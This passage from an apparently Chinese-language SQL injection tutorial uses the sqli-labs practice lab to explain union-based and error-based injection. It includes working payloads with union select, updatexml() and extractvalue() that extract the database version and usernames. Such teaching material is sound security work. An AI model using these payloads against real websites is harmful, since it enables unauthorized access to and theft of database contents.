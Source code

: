 #### 概念

> 联合查询是可合并多个相似的选择查询的结果集。等同于将一个表追加到另一个表，从而实现将两个表的查询组合在一起

#### 示例

PS：本文都使用 sqli-labs 第一关作为示例！

```sql
查询数据库版本和数据库名称：
?id=-1 union select 1, group_concat(version(), '---',database()), 3 --+
```

### 2. 报错回显注入

#### 概念

> 一些网站在查询数据库时，没有关闭数据库查询出错时错误信息的输出。在SQL中的某些函数，在出错时会给出一些提示信息，报错回显注入就是利用这些函数来输出我们需要的结果

#### 注入函数

##### updatexml()

**基本信息**

- UPDATEXML (XML_document, XPath_string, new_value):
  - 第一个参数：xml 文档 ;
  - 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程;
  - 第三个参数：替换查找到的符合条件的数据 ；
- 错误输出最大长度为32位。

**注入使用格式**

```sql
updatexml(1, concat(0x7e, (注入语句), 0x7e), 1)
```

**报错原因**

当第二个参数不符合 xpath 语法时，函数使用报错。

**示例**

```SQL
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username) from users), 0x7e), 1) -- +
```

##### extractvalue()

**基本信息**

- extractvalue(XML_document, XPath_string): 
  - XML_document：目标xml文档；
  - XPath_string：Xpath字符串；
- 错误输出最大长度为32位。

**注入使用格式**

```sql
extractvalue('<a><b><b/></a>',concat(0x7e,(注入语句), 0x7e))
```
